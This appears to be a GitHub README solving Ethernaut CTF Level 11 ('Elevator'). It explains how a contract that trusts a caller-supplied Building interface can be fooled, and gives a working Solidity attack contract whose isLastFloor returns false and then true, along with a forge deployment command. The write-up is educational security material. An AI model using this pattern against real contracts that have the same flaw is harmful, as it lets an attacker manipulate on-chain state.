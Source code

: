 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/11-elevator.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 11 - Elevator</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 11 - Elevator](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-11-elevator)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/11-elevator-requirements.webp" width="800px"/>

## The hack

The Elevator is a level that is supposed to elevate (!) our knowledge about smart contract interface. An interface defines function signatures, but not their logic. This is a way to interact with other contracts without having to know the implementation details.

However, in this case, we can create our Building instance and use it to define our version of the `isLastFloor()` function.

```javascript
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

In the `goTo` function, `isLastFloor` is called twice. The first time with any value (this will set the last floor), and the second time with the floor we want to go to. We can use this to our advantage by crafting a `isLastFloor()` that will return `false` the first time and `true` the second time.

This will allow us to reach the top of the building.

## Solution

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract StairwayToHeaven {
    bool private toogle;
    IElevator private elevator;

    constructor(address _elevator) {
        elevator = IElevator(_elevator);
    }

    // Implement the isLastFloor function to return false the first time (set
    // the floor to any uint value) and true the second time to go to the top
    function isLastFloor(uint) public returns (bool) {
        toogle = !toogle;
        return toogle;
    }

    // Pick your number :)
    function attack(uint256 _floor) external {
        elevator.goTo(_floor);
    }
}
```

Then, you can use forge scripts to deploy the contract and call the `attack` function with the floor you want to go to.

```bash
forge script script/11_Elevator.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Interfaces are a way to interact with other contracts without having to know the implementation details...
- ... so never trust them blindly!

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
